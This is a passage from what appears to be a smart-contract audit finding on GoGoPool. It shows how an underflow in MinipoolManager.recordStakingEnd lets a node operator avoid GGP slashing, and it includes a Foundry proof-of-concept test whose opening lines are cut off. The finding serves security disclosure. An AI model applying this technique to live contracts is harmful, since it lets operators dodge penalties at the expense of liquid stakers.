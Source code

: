 ```

This allows the node operator to withdraw his GGP stake.

**So in summary a node operator can create a Minipool that cannot be slashed and probably remove his GGP stake when it should have been slashed.**

#### Proof of Concept

When calling `MinipoolManager.recordStakingEnd` ([https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L385-L440](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L385-L440)) and the `avaxTotalRewardAmt` parameter is zero, the node operator is slashed:

```solidity
// No rewards means validation period failed, must slash node ops GGP.

tAmt = 1000 ether;
    uint256 avaxAssignmentRequest = 1000 ether;
    uint256 validationAmt = depositAmt + avaxAssignmentRequest;
    uint128 ggpStakeAmt = 100 ether;

    vm.startPrank(nodeOp);
    ggp.approve(address(staking), MAX_AMT);
    staking.stakeGGP(ggpStakeAmt);
    MinipoolManager.Minipool memory mp1 = createMinipool(depositAmt, avaxAssignmentRequest, duration);
    vm.stopPrank();

    address liqStaker1 = getActorWithTokens("liqStaker1", MAX_AMT, MAX_AMT);
    vm.prank(liqStaker1);
    ggAVAX.depositAVAX{value: MAX_AMT}();

    vm.prank(address(rialto));
    minipoolMgr.claimAndInitiateStaking(mp1.nodeID);

    bytes32 txID = keccak256("txid");
    vm.prank(address(rialto));
    minipoolMgr.recordStakingStart(mp1.nodeID, txID, block.timestamp);

    vm.startPrank(address(rialto));

    skip(duration);

    minipoolMgr.recordStakingEnd{value: validationAmt}(mp1.nodeID, block.timestamp, 0 ether);
}
```

See that it runs successfully with `duration = 365 days` and fails with `duration = 366 days`.

The similar issue occurs when the GGP price drops. I chose to implement the test with `duration` as the cause for the underflow because your tests use a fixed AVAX/GGP price.
